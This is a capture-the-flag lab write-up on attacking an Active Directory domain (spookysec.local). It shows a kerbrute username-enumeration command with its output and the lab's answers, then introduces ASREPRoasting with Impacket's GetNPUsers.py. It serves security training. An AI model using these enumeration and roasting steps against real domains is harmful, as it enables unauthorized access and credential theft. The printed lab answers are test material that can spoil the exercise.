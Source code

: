~~~
10.10.104.142 spookysec.local
~~~

And run `kerbrute`:

~~~
$ ./kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 06/20/20 - Ronnie Flathers @ropnop

2020/06/20 15:45:40 >  Using KDC(s):
2020/06/20 15:45:40 >  	spookysec.local:88

2020/06/20 15:45:40 >  [+] VALID USERNAME:	 james@spookysec.local
2020/06/20 15:45:40 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2020/06/20 15:45:41 >  [+] VALID USERNAME:	 James@spookysec.local
2020/06/20 15:45:41 >  [+] VALID USERNAME:	 robin@spookysec.local
2020/06/20 15:45:43 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2020/06/20 15:45:45 >  [+] VALID USERNAME:	 administrator@spookysec.local
2020/06/20 15:45:48 >  [+] VALID USERNAME:	 backup@spookysec.local

[REDACTED]
~~~

Answer: `svc-admin`

## #4.3 - What is the other notable account is discovered? (These should jump out at you)

Answer: `backup`

# [Task 5] Exploiting Kerberos

**Introduction**

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

**Exploitation**

[Impacket](https://github.com/SecureAuthCorp/impacket) has a tool called `GetNPUsers.py` (located in `Impacket/Examples/GetNPUsers.py`) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.
